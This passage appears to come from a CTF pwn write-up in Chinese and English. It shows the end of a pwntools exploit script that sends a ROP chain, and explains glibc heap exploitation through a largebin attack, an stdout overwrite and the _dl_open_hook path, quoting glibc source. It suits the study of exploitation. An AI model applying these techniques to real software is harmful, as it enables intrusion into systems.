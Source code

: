 ```python
    syscall_ret,
])

edit(0x2000, rop)
r.sendline("A")
sleep(0.1)
r.send("flag")

r.interactive()
```



- `setcontext()`:  The function setcontext() restores the **user context pointed at by ucp**
  - ucp == `ucontext_t` pointer (?)



---



官方解法利用 largebin attack + 蓋 `stdout` 來 libc，但是過程基本上是一樣的，最後 exploit 的部分走 `_dl_open_hook` ，沒有仔細追，過程大致如下:

`_int_free` -> `malloc_printerr` -> `__libc_message` -> `BEFORE_ABORT()` (`backtrace_and_maps()`) -> `__backtrace()` -> `__libc_once()` -> `INIT_FUNCTION()`(sysdeps/generic/libc-lock.h) 也就是 `init()` 被執行 -> (sysdeps/x86_64/backtrace.c) -> `__libc_dlopen()` (實際執行 `__libc_dlopen_mode()`) (elf/dl-libc.c):

```c
void *
__libc_dlopen_mode (const char *name, int mode)
{
  struct do_dlopen_args args;
  args.name = name;
  args.mode = mode;
  args.caller_dlopen = RETURN_ADDRESS (0);

#ifdef SHARED
  if (__glibc_unlikely (_dl_open_hook != NULL))
    return _dl_open_hook->dlopen_mode (name, mode);
...
```

and `__libc_dlsym()`:

```c
void *
__libc_dlsym (void *map, const char *name)
{
  struct do_dlsym_args args;
  args.map = map;
  args.name = name;

#ifdef SHARED
  if (__glibc_unlikely (_dl_open_hook != NULL))
    return _dl_open_hook->dlsym (map, name);
...
```
